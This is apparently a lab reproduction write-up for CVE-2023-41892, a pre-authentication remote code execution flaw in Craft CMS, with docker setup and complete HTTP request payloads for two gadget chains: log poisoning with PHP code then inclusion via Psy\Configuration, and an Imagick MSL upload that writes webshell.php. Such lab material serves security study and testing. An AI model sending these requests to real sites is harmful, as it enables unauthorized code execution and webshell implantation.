





CraftCMS ConditionsController Pre-Auth Remote Code Execution (CVE-2023-41892)¶
Craft CMS is a flexible, user-friendly CMS for creating custom digital experiences on the web. It provides users with a backend interface to implement websites and configure the CMS.
A vulnerability in Craft CMS versions 4.4.0 through 4.4.14 allows unauthenticated attackers to achieve remote code execution through the ConditionsController. The vulnerability exists due to insufficient input validation in the controller's beforeAction method, which can be exploited to create arbitrary objects and achieve code execution.
References:
- https://github.com/craftcms/cms/security/advisories/GHSA-4w8r-3xrw-v25g
- https://blog.calif.io/p/craftcms-rce
- https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/
Environment Setup¶
Execute the following command to start a vulnerable Craft CMS 4.4.14:
docker compose up -d
After the server is running, you can see the installation page at http://your-ip:8088/admin/install. Please follow the instructions to install CraftCMS, the default database address is db and the username and password are both root.

Vulnerability Reproduction¶
The root cause of the vulnerability is that the attacker can send a specially crafted HTTP request to create arbitrary objects through PHP object injection. By chaining multiple gadgets in the codebase, the attacker can achieve remote code execution.
There are two common gadgets that can be used to achieve remote code execution.
Gadget 1: craft\elements\conditions\users\UserCondition with \Psy\Configuration¶
This gadget requires server logging to be enabled, which is enabled by default.
First, send a POST request with a syntax error JSON to write the payload to the log file:
POST /index.php?action=conditions/render HTTP/1.1
Host: localhost:8088
Content-Type: application/json
{
aaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaa
<?php
@phpinfo(); __halt_compiler();
?>
}

Then, trigger the remote code execution by including the log file through the \Psy\Configuration gadget (replace the 2025-03-31 with your current date):
POST /index.php?action=conditions/render HTTP/1.1
Host: localhost:8088
Content-Type: application/json
{
"config": {
"name": "test",
"as xyz": {
"class": "\\Psy\\Configuration",
"__construct()": {
"config": {
"configFile": "../storage/logs/web-2025-03-31.log"
}
}
}
},
"test": "craft\\elements\\conditions\\users\\UserCondition"
}

As you can see, the PHPINFO is executed successfully.
Gadget 2: craft\elements\conditions\users\UserCondition with built-in Imagick class¶
If the Imagick extension is enabled, you can use the Imagick class with MSL format to write arbitrary files:
POST /index.php?action=conditions/render HTTP/1.1
Host: localhost:8088
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarytlNPtAxuuGOeUqqY
------WebKitFormBoundarytlNPtAxuuGOeUqqY
Content-Disposition: form-data; name="test"
craft\elements\conditions\users\UserCondition
------WebKitFormBoundarytlNPtAxuuGOeUqqY
Content-Disposition: form-data; name="config[name]"
test
------WebKitFormBoundarytlNPtAxuuGOeUqqY
Content-Disposition: form-data; name="config[as xyz][class]"
imagick
------WebKitFormBoundarytlNPtAxuuGOeUqqY
Content-Disposition: form-data; name="config[as xyz][__construct()][0][0]"
vid:msl:/tmp/php*
------WebKitFormBoundarytlNPtAxuuGOeUqqY
Content-Disposition: form-data; name="file"; filename="1.msl"
Content-Type: text/plain
<?xml version="1.0" encoding="UTF-8"?>
<image>
<read filename="caption:<?=phpinfo();?>"/>
<write filename="info:webshell.php" />
</image>
------WebKitFormBoundarytlNPtAxuuGOeUqqY--
This payload will execute PHP code like new Imagick('vid:msl:/tmp/php*');, and cause the "Segmentation fault" error, which makes the thread crash:

But the webshell.php file is written successfully:
